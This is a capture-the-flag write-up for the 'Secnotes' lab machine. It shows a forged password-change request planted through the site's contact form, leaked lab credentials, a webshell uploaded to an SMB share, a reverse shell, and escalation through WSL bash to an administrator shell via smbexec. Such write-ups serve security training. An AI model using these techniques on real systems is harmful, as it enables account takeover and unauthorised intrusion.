 # Secnotes

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.85.180    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:49 EDT
Nmap scan report for 10.129.85.180
Host is up (0.010s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Interesting ports for a Windows machine.

### Request Forgery

Port 80 just shows a login page:

<figure><img src="../../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

We can create a user to login.

<figure><img src="../../../.gitbook/assets/image (21) (7).png" alt=""><figcaption></figcaption></figure>

There's a user with an email, and this user might click on the links we send. I sent one like so:

<figure><img src="../../../.gitbook/assets/image (9) (6) (3).png" alt=""><figcaption></figcaption></figure>

And we do indeed get a callback on a `nc` listening port.

```
$ nc -lvnp 80                          
listening on [any] 80 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.85.180] 49797
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.13
Connection: Keep-Alive
```

So there's some request forgery going on here. I tried changing passwords, and viewed the request in Burp:

```http
POST /change_pass.php HTTP/1.1
Host: 10.129.85.180
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://10.129.85.180
Connection: close
Referer: http://10.129.85.180/change_pass.php
Cookie: PHPSESSID=8ufhg7s7ejqtmjcfike2ek21fl
Upgrade-Insecure-Requests: 1



password=test%40123&confirm_password=test%40123&submit=submit
```

I found that if we convert this to a GET requests, it still works. This means we can change the password of the user by redirecting him to the `change.php` site and entering the same parameters. Send this to the Contact Us page:

{% code overflow="wrap" %}
```
http://10.129.85.180/change_pass.php?password=easypass&confirm_password=easypass&submit=submit
```
{% endcode %}

After waiting for a bit, we can login as `tyler` using this password.

<figure><img src="../../../.gitbook/assets/image (50) (5).png" alt=""><figcaption></figcaption></figure>

There are some credentials located within the note **new site**.&#x20;

```
\\secnotes.htb\newsite
tyler / 92g!mA8BGjOirkL%OG*&
```

### SMB

Now that we have some credentials, we can check whether they are valid:

```
$ smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.129.85.182
[+] IP: 10.129.85.182:445       Name: 10.129.85.182                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        new-site                                                READ, WRITE
```

So we have read and write permissions on `new-site`. There's another IIS web server on port 8808, which I think is the new site being referred to. We can put a webshell on it and check if it works.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (8) (1).png" alt=""><figcaption></figcaption></figure>

Now we have RCE, and we can get a reverse shell through downloading and executing `nc.exe`.

&#x20;

<figure><img src="../../../.gitbook/assets/image (20) (9).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bash Shell

Within the user's desktop, there is a `bash.lnk` file:

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
05/04/2023  07:02 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
```

When we view its contents, we can't make out a lot but we can see that `bash.exe` is installed on the system:

{% code overflow="wrap" %}
```
C:\Users\tyler\Desktop>type bash.lnk
type bash.lnk
L�F w������V�   �v(���  ��9P�O� �:i�+00�/C:\V1�LIWindows@       ﾋL���LI.h���&WindowsZ1�L<System32B   ﾋL���L<.p�k�System32▒Z2��LP� bash.exeB  ﾋL<��LU.�Y����bash.exe▒K-JںݜC:\Windows\System32\bash.exe"..\..\..\Windows\System32\bash.exeC:\Windows\System32�%�
                                                                    �wN�▒�]N�D.��Q���`�Xsecnotesx�<sAA��㍧�o�:u��'�/�x�<sAA��㍧�o�:u��'�/�=  �Y1SPS�0��C�G����sf"=dSystem32 (C:\Windows)�1SPS��XF�L8C���&�m�q/S-1-5-21-1791094074-1363918840-4199337083-1002�1SPS0�%��G▒��`����%
        bash.exe@������
                       �)
                         Application@v(���      �i1SPS�jc(=�����O�▒�MC:\Windows\System32\bash.exe91SPS�mD��pH�H@.�=x�hH�(�bP
```
{% endcode %}

We can search for this using `where`.&#x20;

```
C:\Users\tyler\Desktop>where /R c:\ bash.exe
c:\Windows\System32\bash.exe
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

The first one doesn't work, so I tried the second one.

<figure><img src="../../../.gitbook/assets/image (25) (7) (1).png" alt=""><figcaption></figcaption></figure>

We would spawn in a `root` shell. We can spawn a PTY shell the normal way with `python3`.

```
exitroot@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
```

Then, when viewing the bash history file, we can see credentials for the administrator:

```
root@SECNOTES:~# cat .bash_history
<TRUNCATED>
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

We can verify these credentials via `smbmap`.&#x20;

<figure><img src="../../../.gitbook/assets/image (37) (6) (1).png" alt=""><figcaption></figcaption></figure>

We have complete control over the file system, and we can get a shell with `smbexec.py` because only SMB is open.

<figure><img src="../../../.gitbook/assets/image (14) (8) (2).png" alt=""><figcaption></figcaption></figure>
